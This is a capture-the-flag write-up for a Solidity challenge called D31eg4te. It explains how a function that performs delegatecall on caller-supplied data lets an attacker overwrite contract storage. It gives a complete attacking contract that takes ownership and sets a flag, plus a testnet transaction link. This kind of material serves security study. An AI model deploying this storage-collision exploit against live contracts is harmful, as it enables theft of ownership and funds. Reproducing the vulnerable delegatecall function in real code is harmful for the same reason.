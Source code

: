### D31eg4te

Solution by 2pats.eth

### Objectives

1) become owner
2) change canYouHackMe[your_addr] to true

### Main Vulnerabilities

the CTF contract exposes a function that executes arbitrary bytecode as delegatecall:

```

    function hackMe(bytes calldata bites) public returns(bool, bytes memory) {
        (bool r, bytes memory msge) = address(msg.sender).delegatecall(bites);
        return (r, msge);
    }
```

### Exploit

Create an attacking contract that has the storages at the same slot as the CTF contract. I just copied all the storage values over. Our attacking function attack() will call the target contract function hackMe(), passing in the function signature for our "exploit()" function. This exploit function mutates the contract storage, which will execute in the context of the CTF contract and change its storage, making me the owner and set canYouHackMe[2pats] to true at the same time.

here is the receipt for my GOERLI on chain attack: https://goerli.etherscan.io/tx/0x8ceb2a0e479aa6c14914e0c95efaa1284079272f882cd6f01588f36d00f0c195

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
import "../instances/dgate.sol";

contract Solution {
    uint a = 12345;
    uint8 b = 32;
    string private d; // Super Secret data.
    uint32 private c; // Super Secret data.
    string private mot; // Super Secret data.
    address public owner;
    mapping (address => bool) public canYouHackMe;
    D31eg4t3 constant target = D31eg4t3(0x971e55F02367DcDd1535A7faeD0a500B64f2742d);
    address constant HACKER = 0xf4CE225b2beaFA65CC155a9dE1B1a41FF5EB3B61;

    function hackMe(bytes calldata bites) public returns(bool, bytes memory) {
        (bool r, bytes memory msge) = address(msg.sender).delegatecall(bites);
        return (r, msge);
    }

    function attack() external {
        target.hackMe(abi.encodeWithSignature("exploit()"));
    }

    function exploit() public {
        owner = HACKER;
        canYouHackMe[HACKER] = true;
    }
}
```
